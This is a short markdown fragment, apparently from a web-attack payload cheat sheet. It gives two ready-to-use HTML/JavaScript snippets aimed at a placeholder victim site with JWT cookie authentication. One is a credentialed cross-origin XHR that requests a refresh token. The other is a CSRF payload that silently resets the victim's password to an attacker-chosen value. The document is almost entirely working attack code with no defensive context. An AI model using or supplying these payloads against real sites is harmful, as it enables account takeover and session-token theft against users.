 ## XHR CORS

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.avictimwebsitewithJWTcookieauth.com/api/refreshtoken");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send();
</script>
```

## XHR CSRF

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.avictimwebsitewithJWTcookieauth.com/api/passwordreset");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"newpass":"BadGuyKnowsThis!"}');
</script>
```